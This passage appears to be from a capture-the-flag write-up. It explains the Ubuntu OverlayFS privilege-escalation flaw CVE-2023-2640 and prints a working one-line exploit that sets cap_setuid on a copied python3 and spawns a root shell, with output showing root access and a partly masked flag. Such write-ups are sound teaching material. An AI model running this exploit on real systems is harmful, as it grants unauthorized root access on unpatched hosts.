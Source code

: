 Labeled in [this reddit post about ubuntu privesc](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/), CVE-2023-2640 utilizes an improper implementation of OverlayFS to set privileged extended attributes without the necessary authentication check. 

OverlayFS itself is used to mount two directories, upper and lower, which function as one mounted directory. Any file name that exists within both the upper and lower directory will result in the upper file being pushed to the mounted directory. This is exceptionally useful for containers as the image can be loaded in the lower directory, and the upper can have specific file overwrites for config files or functionality purposes. 

In this exploit a lower directory file can be passed to OverlayFS and given elevated capabilities to setuid, which are leveraged to gain root. 

[https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/cve.md#CVE-2023-32629-CVE-2023-2640-GameOverlay-Ubuntu-Kernel-Exploit-LPE-0-day](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/cve.md#CVE-2023-32629-CVE-2023-2640-GameOverlay-Ubuntu-Kernel-Exploit-LPE-0-day)

```bash
metalytics@analytics:~$ export TD=$(mktemp -d) && cd $TD && unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);d=os.getenv("TD");os.system(f"rm -rf {d}");os.chdir("/root");os.system("/bin/sh")'

# id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
# cat /root/root.txt
32d4df9aa------------------------
```



